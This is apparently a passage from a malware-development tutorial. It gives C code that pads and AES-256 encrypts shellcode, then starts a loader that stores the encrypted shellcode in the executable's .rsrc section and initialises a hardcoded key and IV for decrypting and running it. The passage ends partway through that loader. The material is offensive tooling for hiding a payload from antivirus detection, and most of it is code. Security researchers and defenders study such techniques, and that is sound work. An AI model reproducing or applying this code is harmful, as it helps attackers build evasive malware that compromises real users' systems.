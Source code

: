 ```c
BOOL PaddBuffer(IN PBYTE InputBuffer, IN SIZE_T InputBufferSize, OUT PBYTE* OutputPaddedBuffer, OUT SIZE_T* OutputPaddedSize) {

	PBYTE	PaddedBuffer = NULL;
	SIZE_T	PaddedSize = NULL;

	// calculate the nearest number that is multiple of 16 and saving it to PaddedSize
	PaddedSize = InputBufferSize + 16 - (InputBufferSize % 16);
	// allocating buffer of size "PaddedSize"
	PaddedBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, PaddedSize);
	if (!PaddedBuffer) {
		return FALSE;
	}
	// cleaning the allocated buffer
	ZeroMemory(PaddedBuffer, PaddedSize);
	// copying old buffer to new padded buffer
	memcpy(PaddedBuffer, InputBuffer, InputBufferSize);
	//saving results :
	*OutputPaddedBuffer = PaddedBuffer;
	*OutputPaddedSize = PaddedSize;

	return TRUE;
}

...

	if (sPayloadSize % 16 != 0) {
		PVOID pPayload_padded = NULL;
		SIZE_T* sPayloadSize_padded = NULL;
		PaddBuffer(pPayload, sPayloadSize, &pPayload_padded, &sPayloadSize_padded);
		AES_CBC_encrypt_buffer(&ctx, pPayload_padded, sPayloadSize_padded);
		PrintHexData(pPayload_padded, sPayloadSize_padded);
	}
	else {
		AES_CBC_encrypt_buffer(&ctx, pPayload, sPayloadSize);
		PrintHexData(pPayload, sPayloadSize);
	}
```
Great! Now we are able to generate encrypted shellcode with AES-256. But how do we run it?

## Decrypting and Running AES

This is the easy part. Import our encrypted shell code to `.rsrc` as before and initialize our key and IV:

```c
int main()
{
	struct AES_ctx ctx;

	BYTE pKey[] = {
		0xA7, 0xDE, 0x31, 0x82, 0x24, 0x32, 0x1B, 0x55, 0x35, 0x9B, 0x44, 0xEA, 0x8B, 0x9D, 0x75, 0xF1, 0xE4, 0x8B, 0x04, 0x7E, 0xD1, 0x3F, 0xB0, 0x5F, 0xBD, 0x0E, 0xCC, 0xAE, 0x2B, 0xFC, 0xA0, 0xA2
	};
	BYTE pIv[] = {
	  0xD7, 0x90, 0xE9, 0x42, 0x3B, 0xB4, 0xCD, 0xE8, 0x8F, 0x21, 0x88, 0xEA, 0x2E, 0x96, 0x74, 0x8B
	};

	printf("--> KEY HEX:\n");
	PrintHexData(pKey, 32);
	printf("--> IV HEX:\n");
	PrintHexData(pIv, 16);
```
